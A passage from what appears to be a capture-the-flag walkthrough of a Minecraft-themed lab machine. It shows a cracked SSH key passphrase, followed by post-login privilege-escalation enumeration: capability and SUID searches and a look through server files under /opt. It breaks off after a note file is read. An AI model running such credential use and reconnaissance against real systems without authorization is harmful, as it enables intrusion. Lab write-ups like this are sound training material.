 ```jsx
Enter passphrase for key 'id_rsa_ulti': creepin2006

xxultimatecreeperxx@cybercrafted:~$ whoami
xxultimatecreeperxx
xxultimatecreeperxx@cybercrafted:~$ id
uid=1001(xxultimatecreeperxx) gid=1001(xxultimatecreeperxx) groups=1001(xxultimatecreeperxx),25565(minecraft)
xxultimatecreeperxx@cybercrafted:~$ pwd
/home/xxultimatecreeperxx

xxultimatecreeperxx@cybercrafted:~$ groups
xxultimatecreeperxx minecraft
xxultimatecreeperxx@cybercrafted:~$ getent group minecraft
minecraft:x:25565:xxultimatecreeperxx

xxultimatecreeperxx@cybercrafted:~$ getcap -r / 2>/dev/null
/usr/bin/mtr-packet = cap_net_raw+ep
xxultimatecreeperxx@cybercrafted:~$ find / -type f -perm -u=s 2>/dev/null

/bin/su
/bin/fusermount
/bin/mount
/bin/umount
/bin/ping
/usr/bin/traceroute6.iputils
/usr/bin/sudo
/usr/bin/newgidmap
/usr/bin/passwd
/usr/bin/at
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/bin/pkexec
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/chfn
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1

xxultimatecreeperxx@cybercrafted:~$ find /opt -perm -4000 -type f -exec ls -al {} 2>/dev/null \;
xxultimatecreeperxx@cybercrafted:~$ 

```

> **Log Analysis & Switch User Phase**
> 

```jsx
xxultimatecreeperxx@cybercrafted:~$ find /opt -type f -name "*.txt" 2>/dev/null

/opt/minecraft/note.txt
/opt/minecraft/minecraft_server_flag.txt
/opt/minecraft/cybercrafted/white-list.txt
/opt/minecraft/cybercrafted/plugins/LoginSystem/log.txt
/opt/minecraft/cybercrafted/ops.txt
/opt/minecraft/cybercrafted/banned-ips.txt
/opt/minecraft/cybercrafted/banned-players.txt

xxultimatecreeperxx@cybercrafted:~$ cat /opt/minecraft/note.txt
Just implemented a new plugin within the server so now non-premium Minecraft accounts can game too! :)
```